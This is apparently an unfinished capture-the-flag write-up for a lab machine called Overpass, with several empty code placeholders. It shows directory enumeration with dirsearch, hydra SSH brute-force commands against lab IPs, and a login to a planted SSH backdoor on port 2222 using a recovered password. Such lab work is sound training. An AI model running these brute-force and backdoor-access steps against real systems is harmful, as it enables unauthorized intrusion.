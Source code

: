 ### Web Browsing
```bash
# code goes here
```

### Web Crawling
Dirsearch discovered several web files and directories of interest. 
```bash
git clone https://github.com/maurosoria/dirsearch
python3 dirsearch/dirsearch.py -u 10.10.22.113 --simple-report Overpass-WebCrawl.txt

# output
```

### Vulnerability Scanning
```
# code goes here
```

## Exploit
```bash
# code goes here
```

### Password Guessing
Attempted to login via SSH, no dice. 
```bash
ssh james@10.10.22.113
# Permission denied, please try again.

ssh paradox@10.10.22.113
# Permission denied, please try again.

ssh szymex@10.10.22.113
# Permission denied, please try again.

ssh bee@10.10.22.113
# Permission denied, please try again.

ssh muirland@10.10.22.113
# Permission denied, please try again.
```

Attempted to brute-force my way in to identify james's password, no dice. 
```bash
hydra -l james -P /usr/share/wordlists/fasttrack.txt 10.10.62.200 -t4 ssh -s 22
hydra -l root -P /usr/share/wordlists/fasttrack.txt 10.10.62.200 -t4 ssh -s 22
```

Attempted to connect to the hacker's backdoor.
```bash
nc 10.10.22.113 2222 # did not work

ssh -p2222 10.10.226.36 # worked using 'november16' as the password

# output
The authenticity of host '[10.10.226.36]:2222 ([10.10.226.36]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.226.36]:2222' (RSA) to the list of known hosts.
victor@10.10.226.36's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```